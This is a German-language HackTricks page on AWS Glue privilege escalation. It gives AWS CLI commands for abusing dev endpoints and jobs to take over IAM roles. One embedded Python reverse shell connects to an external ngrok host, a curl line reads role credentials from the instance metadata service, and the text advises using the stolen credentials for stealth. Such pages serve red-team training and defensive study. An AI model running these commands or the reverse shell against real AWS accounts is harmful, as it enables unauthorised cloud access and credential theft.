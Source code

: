# AWS - Glue Privesc

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Benutzer mit diesen Berechtigungen können **einen neuen AWS Glue-Entwicklungspunkt einrichten**, **indem sie eine vorhandene Dienstrolle zuweisen, die von Glue übernommen werden kann**, mit spezifischen Berechtigungen für diesen Endpunkt.

Nach der Einrichtung kann der **Angreifer per SSH auf die Instanz des Endpunkts zugreifen** und die IAM-Anmeldeinformationen der zugewiesenen Rolle stehlen:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Für Stealth-Zwecke wird empfohlen, die IAM-Anmeldeinformationen von innerhalb der Glue-virtuellen Maschine zu verwenden.

**Potenzielle Auswirkungen:** Privilegieneskalation auf die angegebene Glue-Dienstrolle.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Benutzer mit dieser Berechtigung können **den SSH-Schlüssel eines bestehenden Glue-Entwicklung** Endpunkts ändern, **was den SSH-Zugriff darauf ermöglicht**. Dies erlaubt dem Angreifer, Befehle mit den Rechten der angehängten Rolle des Endpunkts auszuführen:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Potenzielle Auswirkungen:** Privesc auf die verwendete Glue-Service-Rolle.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Benutzer mit **`iam:PassRole`** in Kombination mit entweder **`glue:CreateJob` oder `glue:UpdateJob`**, und entweder **`glue:StartJobRun` oder `glue:CreateTrigger`** können **einen AWS Glue-Job erstellen oder aktualisieren**, indem sie ein beliebiges **Glue-Service-Konto** anhängen und die Ausführung des Jobs initiieren. Die Fähigkeiten des Jobs umfassen das Ausführen beliebigen Python-Codes, der ausgenutzt werden kann, um eine Reverse-Shell einzurichten. Diese Reverse-Shell kann dann verwendet werden, um die **IAM-Anmeldeinformationen** der Rolle, die an den Glue-Job angehängt ist, zu exfiltrieren, was zu potenziellem unbefugtem Zugriff oder Aktionen basierend auf den Berechtigungen dieser Rolle führen kann:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Potenzielle Auswirkungen:** Privesc auf die angegebene Glue-Service-Rolle.

### `glue:UpdateJob`

Nur mit der Aktualisierungsberechtigung könnte ein Angreifer die IAM-Anmeldeinformationen der bereits angehängten Rolle stehlen.

**Potenzielle Auswirkungen:** Privesc auf die angehängte Glue-Service-Rolle.

## Referenzen

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
